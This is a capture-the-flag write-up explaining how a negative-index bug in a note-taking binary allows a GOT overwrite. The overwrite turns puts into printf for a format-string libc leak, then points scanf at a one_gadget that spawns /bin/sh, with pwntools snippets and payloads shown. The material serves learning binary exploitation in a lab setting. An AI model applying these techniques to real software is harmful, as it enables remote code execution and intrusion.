# Note

We were given [this binary](./Sources/note) and theses files to run it :

 - [Dockerfile](./Sources/Dockerfile)
 - [docker-compose.yml](./Sources/docker-compose.yml)
 - [docker-entrypoint.sh](./Sources/docker-entrypoint.sh)

First things first, we can just run this container and get it's [libc](./Sources/libc.so.6) and [ld](./Sources/ld-linux-x86-64.so.2). After running `pwninit` we get our [patched binary](./Sources/note_patched) using the same libraries as the server.

We can also see that most of the securities are enabled on that binary :

```console
$ checksec --file=./note
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/note/note'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

With this out of the way, let's check out what the program does :

![note](./Images/note.png)

We can add notes, view their contents, and exit. Looking at the pseudo C we get with Ghidra, we can see that these notes are written on the bss in this function :

```C
void add(void)
{
  long in_FS_OFFSET;
  uint user_choice;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  getn(&user_choice);
  if (0x10 < (int)user_choice) {
     call_exit(1);
  }
  printf("value: ");
  read(0,notes + (long)(int)user_choice * 0x10,0xf);
  printf("note added on %d successfully!\n",(ulong)user_choice);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
     __stack_chk_fail();
  }
  return;
}
```

`getn()` is only using `scanf` to get an integer, and since there's no check on wheter `user_choice` is negative, there is an interger underflow in this line :

```C
if (0x10 < (int)user_choice) {
```

This gives us an arbitrary write with this `read()` call:

```C
read(0,notes + (long)(int)user_choice * 0x10,0xf);
```

For example if I create a note with index `-10`, I'll be writing at address `notes - 160` as we can see with GDB:

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: -10
value: 
```

![underflow example](./Images/underflow_example.png)

Since the binary has Partial RELRO, the got is writable, this vulnerability immediatly SCREAMS got overwrite. If you don't know what the fuck I'm talking about, [this](https://ir0nstone.gitbook.io/notes/binexp/stack/aslr/plt_and_got) might help you out.

Our problem being, pie and aslr are activated. So if we want to overwrite the got with a one gadget we first need a leak to calculate it's address. I didn't find another vulnerability to get a leak, so at first I thought about bruteforcing which sadly couldn't work. Since I can overwrite the got, maybe if I overwrite some other function's got with `puts` it might leak me something. It didn't 🗿

At that point, not seeing any other options I chose to stop in shame and go do some reverse.

![shame](https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExYTFiajR5em8wbjJpZG8xMWRzNHFyZXQzcHU0OGZwczRjdzA3bm5meCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/vX9WcCiWwUF7G/giphy.gif)

But later on, reinvigorated by a quick flag, I decided to take another look at it. And this time I thought : I tried to overwrite other functions with `puts`, but what about `printf` ? And I saw this line in `view()` (the function letting us view the note's content) :

```C
puts(notes + (ulong)index * 0x10);
```

We can write whatever we want over `notes`, so if `puts` actually calls `printf` this gets us a format string.

![revelation](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExMjB6N3FxMDM0NWp5b3BtMWI2NDByYzdramFkaHE0ZTloaDg1dGFlNiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26ufdipQqU2lhNA4g/giphy.gif)

First thing first, let's check wheter it's feasable using GDB :

![got overwrite](./Images/got_plt_values.png)

Since `puts`'s address isn't resolved until we call it in `view()`, it doesn't point to the libc yet. And as we can see above, we only have to overwrite the least significant byte to `0xf0` to make it point to `printf`'s plt. Let's make it happen with a script :

```python
def add(index:bytes, value:bytes):
    p.sendline(b"1")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    p.recvuntil(b"value: ")
    p.send(value)
    p.recvuntil(b">")

def view(index:bytes):
    p.sendline(b"2")
    p.recvuntil(b"idx: ")
    p.sendline(index)
    data = p.recvuntil(b"===").replace(b"===", b"").strip()
    p.recvuntil(b">")
    return data
```

First we can code these functions to interact with the program , and now we can overwite `puts`'s got quite simply this way :

```python
add(b"-10", b"\xf0")
```

We know it's `-10` simply by debugging and calculating the offset. For example, `0x55cb0f7f6000` being the address of `notes` and `0x55cb0f7f60a0` the address of `puts`'s got :

```python
>>> 0x55cb0f7f6000-0x55cb0f7f60a0
-160
>>> _/0x10
-10.0
```

As you can see, we now have a format string when viewing our notes :

```console
=== Menu ===
1. Add
2. View
0. Exit
> 1
idx: 0
value: %17$p
note added on 0 successfully!
=== Menu ===
1. Add
2. View
0. Exit
> 2
idx: 0
0x7f95cfe2a1ca
```

By debugging we can find out that the payload `%17$p` leaks us the libc. So we can automate the leak this way :

```python
add(b"0", b"%17$p")
leak = view(b"0")
libc.address = int(leak, 16) - (libc.sym["__libc_start_call_main"] + 122)
```

Now, we need to find a one gadget which constraint's won't be an issue. Took me some time, but I found this one that could be executed during the `scanf` call in the `menu()` function :

```
0xef52b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

And finally, we just have to overwrite `scanf`'s got with that one gadget:

```python
one_gadget = p64(libc.address + 0xef52b)
add(b"-7", b"A"*8+one_gadget[:7])
```

Putting it all together in [this script](./solve.py) we get the flag :

```console
$ ./solve.py -r 146.148.28.103 32866
$ cat flag.txt
HNx04{83b55ee77f37cac314fe45d1f45e33f4}
```
